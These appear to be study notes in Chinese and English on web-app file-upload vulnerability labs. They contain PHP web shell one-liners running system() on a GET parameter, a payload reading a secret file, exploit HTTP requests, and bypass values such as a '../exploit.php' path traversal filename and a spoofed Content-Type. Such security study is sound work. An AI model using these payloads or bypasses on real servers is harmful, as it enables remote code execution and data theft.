 ## File upload vulnerabilities
- Web Shell  / reverse Shell
- 伺服器配置允許某些類型的文件（例如.php和.jsp)
- 最糟糕的情況是網站允許你上傳伺服器端腳本（例如 PHP、Java 或 Python 檔案）<br>

PHP 
- "<"?php echo file_get_contents('/path/to/target/file'); ?">"
- "<"?php echo system($_GET['command']); ?">"
- GET /example/exploit.php?command=id HTTP/1.1

## Lab: Remote code execution via web shell upload
-  圖片上傳功能
- 不會對其進行任何驗證 
- upload exploit.php (<"?php echo file_get_contents('/home/carlos/secret'); ?">)
- GET /files/avatars/exploit.php HTTP/1.1 <br>

防禦措施
- 檢查此輸入特定的Content-Type標頭是否與預期的 MIME 類型相符
- Request header:
    - Content-Type:application/x-www-form-url-encoded
    - Content-Type: multipart/form-data
- Content-Type標頭，用於告知伺服器使用此輸入框提交的資料的 MIME 類型
- Content-Disposition標頭，用於提供與其相關的輸入欄位的一些基本資訊
- e.g if 伺服器只接受圖像文件，則可能只允許諸如image/jpeg和 之類的類型image/png

## Lab: Web shell upload via Content-Type restriction bypass
- change Content-Type : image/jpeg

## Lab: Web shell upload via path traversal
- Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
- filename="..%2fexploit.php"
- GET /files/exploit.php <br>

黑名單
- 鮮為人知的替代檔案副檔名 e.g .php5 .shtml
- /etc/apache2/apache2.conf
    - LoadModule php_module /usr/lib/apache2/modules/libphp.so
        AddType application/x-httpd-php .php
- Apache 伺服器 : (.htaccess)
- IIS 伺服器 : (web.config)
    -<pre> <staticContent>
        <mimeMap fileExtension=".json" mimeType="application/json" />
        </staticContent>
